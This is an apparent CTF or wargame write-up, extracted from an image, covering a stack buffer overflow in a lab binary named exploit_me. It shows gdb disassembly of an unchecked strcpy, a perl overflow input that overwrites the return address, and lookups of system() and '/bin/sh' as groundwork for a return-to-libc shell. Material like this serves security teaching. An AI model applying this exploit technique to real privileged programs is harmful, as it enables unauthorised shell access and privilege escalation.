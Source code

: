 #### gdb break at strcpy in main

```
gdb exploit_me
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *0x08048420
Breakpoint 1 at 0x8048420
(gdb) r
```

#### Find EIP address

```
(gdb) r $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')
Starting program: /home/zaz/exploit_me $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')

Breakpoint 1, 0x08048420 in main ()
```

#### Find system function address

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

#### Find chars "/bin/sh"

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```
